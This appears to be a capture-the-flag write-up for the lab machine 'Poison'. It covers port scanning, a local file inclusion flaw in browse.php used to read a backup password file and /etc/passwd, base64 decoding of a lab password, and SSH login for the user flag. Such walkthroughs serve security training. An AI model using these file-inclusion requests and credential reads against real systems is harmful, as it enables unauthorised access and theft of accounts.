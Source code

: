 # Poison

**Machine ip:** 10.10.10.84

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.84 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc6230c3-bc5c-468e-821e-514f8e0828fd)

+ The result shows that 2 TCP ports are open:
```
Port 22: OpenSSH 7.2
Port 80: Apache httpd 2.4.29
```

+ Always start off with enumerating web server first.
+ Navigate to `http://10.10.10.84/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c32c4dc-e26f-4728-ba3e-1518b918c928)

+ When entering **listfiles.php** into **Scriptname** textbox, **pwdbackup.txt** is interesting.
+ `http://10.10.10.84/browse.php?file=listfiles.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bb8237de-e6cc-41e0-8bef-d003d7e1ae08)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a643911b-431e-4fb0-aea8-fcce9e4e28aa)

+ Enter **pwdbackup.txt** into the textbox, and you'll see base64 encoding.
+ `http://10.10.10.84/browse.php?file=pwdbackup.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/755d1b04-96a4-44ce-936f-87f6ff1d3753)

+ This means that the application is vulnerable to local file inclusion (LFI).

## 1.Method:
+ Let's crack the base64 encoding of **pwdbackup.txt**

+ **Firstly**, crack in bash script [here](https://github.com/h4md153v63n/Bash_Scripts/tree/main/base64-multiple-decoder).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a60378d4-e4e3-4d17-bd7f-385c8af1a0d9)

+ **Second Alternative**, try this online tool: https://base64-multiple-decode.netlify.app

![image](https://github.com/h4md153v63n/Bash_Scripts/assets/5091265/27a222f4-dc74-4795-ada0-86bda6fae3b6)

+ Get the password of decoded form as `Charix!2#4%6&8(0`
+ Get the users: `http://10.10.10.84/browse.php?file=/etc/passwd`
+ Discovered users: **root**, **toor** and **charix**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/00e56373-ad34-4087-a00e-7c9efcbf5fae)

+ The user should be `charix`:`Charix!2#4%6&8(0`
+ It belongs to Charix. Login ssh into charix account using the discovered credentials.
+ `ssh charix@10.10.10.84`
+ Get the user shell and user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bd4b9cf9-8dee-4b01-b130-9f79a2776d93)

  


# References & Alternatives:
+ https://vvmlist.github.io/#poison
+ 
